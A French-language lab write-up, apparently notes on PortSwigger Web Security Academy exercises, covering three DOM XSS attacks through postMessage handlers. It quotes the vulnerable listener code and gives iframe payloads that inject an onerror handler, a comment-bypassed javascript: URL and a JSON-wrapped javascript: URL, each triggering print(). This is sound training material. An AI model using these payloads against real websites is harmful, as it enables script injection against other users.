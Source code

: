 On remarque le morceau suivant dans le code source de la page d'accueil : 

    <script>
        window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
        })
    </script>

Mettre le payload suivant dans le serveur d'exploitation : 

    <iframe src="https://0afd00f00393bec681dfe97200090073.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">


### DOM XSS using web messages and a JavaScript URL

Même principe qu'avant mais on a cette fois une vérification très précaire : 

    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }

Cette vérification peut facilement se contourner en mettant une de ces deux valeurs en commentaire.

Mettre le payload suivant dans le serveur d'exploitation :

    <iframe src="https://0ab500a403ba994980dd177d00440017.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">

### DOM XSS using web messages and JSON.parse

Observer le morceau suivant dans le code source de la page d'accueil :

    window.addEventListener('message', function(e) {
                var iframe = document.createElement('iframe'),
                    ACMEplayer = {
                        element: iframe
                    },
                    d;
                document.body.appendChild(iframe);
                try {
                    d = JSON.parse(e.data);
                } catch (e) {
                    return;
                }
                switch (d.type) {
                    case "page-load":
                        ACMEplayer.element.scrollIntoView();
                        break;
                    case "load-channel":
                        ACMEplayer.element.src = d.url;
                        ...
                        
Mettre le payload suivant dans le serveur d'exploitation : 

    <iframe src=https://0a080090048210ca8a2785df00280005.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
